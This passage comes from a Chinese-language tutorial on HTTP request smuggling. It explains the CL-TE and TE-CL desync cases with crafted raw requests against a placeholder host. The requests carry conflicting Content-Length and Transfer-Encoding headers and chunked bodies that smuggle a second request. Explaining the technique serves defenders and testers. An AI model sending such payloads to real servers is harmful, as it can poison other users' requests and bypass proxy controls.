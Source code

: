 ```
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
a
```

连续发送几次请求就可以获得响应。
 **攻击流程**：
 由于前端服务器处理`Content-Length`，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是

```
0\r\n
\r\n
a
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理`Transfer-Encoding`，当它读取到

```
0\r\n
\r\n
```

认为已经读取到结尾了。
 但剩下的字母`a`就被留在了缓冲区中，等待下一次请求。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求：

```
aPOST / HTTP/1.1\r\n
Host: test.com\r\n
......
```

服务器在解析时就会产生报错了，从而造成HTTP请求走私。

#### TE-CL

TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理`Transfer-Encoding`请求头，后端服务器处理`Content-Length`请求头。
 **构造请求示例**：

```
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```
